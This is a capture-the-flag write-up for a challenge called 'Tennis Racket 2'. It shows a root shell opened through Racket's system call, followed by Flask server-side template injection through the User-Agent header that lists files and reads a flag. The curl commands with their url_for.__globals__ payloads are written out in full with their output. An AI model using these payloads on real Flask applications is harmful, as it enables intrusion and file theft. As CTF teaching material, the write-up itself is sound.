 # Tennis Racket 2

**Challenge Type: SSTI (Server Side Template Injection)**  
**Challenge Status: Solved**

## Preface

This challenge consists of 2 parts. First being, getting the flag file and second, exploiting an internal webserver.

## Challenge
I just found out my CS Prof is going to be teaching us Python next semester! Lets see if I can find anything useful for next semester on his computer too...

`nc tennis2.nypinfsecctf.tk 8011`

## Solution

1. Connect to the server via netcat

`nc tennis2.nypinfsecctf.tk 8011`

2. Start a root shell using Racket-lang's built-in functions

```rkt
(system "/bin/bash")
```

3. Look for the flag file

```bash
root@fd5a5457d0f5:/# ls -la

total 60
drwxr-xr-x   1 root root 4096 May  5 23:16 .
drwxr-xr-x   1 root root 4096 May  5 23:16 ..
-rwxr-xr-x   1 root root    0 May  5 23:16 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27 03:49 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot
drwxr-xr-x   5 root root  340 May  7 12:16 dev
drwxr-xr-x   1 root root 4096 May  5 23:16 etc
-rw-r--r--   1 root root  183 May  4 02:34 flag
drwxr-xr-x   2 root root 4096 Apr 15  2020 home
lrwxrwxrwx   1 root root    7 Apr 27 03:49 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27 03:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27 03:49 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27 03:49 media
drwxr-xr-x   2 root root 4096 Apr 27 03:49 mnt
drwxr-xr-x   2 root root 4096 Apr 27 03:49 opt
dr-xr-xr-x 298 root root    0 May  7 12:16 proc
drwx------   1 root root 4096 May  4 12:07 root
drwxr-xr-x   1 root root 4096 May  4 12:06 run
lrwxrwxrwx   1 root root    8 Apr 27 03:49 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Apr 27 03:49 srv
dr-xr-xr-x  13 root root    0 May  7 12:16 sys
drwxrwxrwt   1 root root 4096 May  4 12:07 tmp
drwxr-xr-x   1 root root 4096 May  4 12:06 usr
drwxr-xr-x   1 root root 4096 Apr 27 03:52 var
```

4. Print out flag file contents

```bash
root@fd5a5457d0f5:/# cat flag

TODO List:
1. Grade Racket Assignments
2. Test out new website at http://tennisracket2-grade-bot:5000
3. Chase students for tuition fee
4. Mend my broken relationship with my daughter
```

*It doesn't look right...* **Let's try the webserver**

5. Connect to the webserver

```bash
root@fd5a5457d0f5:/# curl http://tennisracket2-grade-bot:5000
    
<h1>Hi! Grade-bot is still a work-in-progress.</h1>
<p>Here is some debug information:</p>
    
curl/7.68.0
```

**Notice that we used `curl` and it returned our `User-Agent`.**

6. Find out the server type

```bash
root@fd5a5457d0f5:/# curl -I http://tennisracket2-grade-bot:5000

HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.9.12
Date: Sat, 07 May 2022 19:51:11 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 135
Connection: close
```

7. Most popular webserver is Flask. Time to list files

```bash
curl -A "{{url_for.__globals__.os.__dict__.listdir('./')}}" http://tennisracket2-grade-bot:5000
    
<h1>Hi! Grade-bot is still a work-in-progress.</h1>
<p>Here is some debug information:</p>
    
[&#39;flag&#39;, &#39;app.py&#39;]
```

8. We found the flag

```bash
curl -A "{{url_for.__globals__.__builtins__.open('flag').read()}}" http://tennisracket2-grade-bot:5000

<h1>Hi! Grade-bot is still a work-in-progress.</h1>
<p>Here is some debug information:</p>
    
NYP{r5ck3t_fl5sk_sst1}
```

## Ending Note

Flask has many other methods for linking into `__globals__` space. `url_for` is one of them.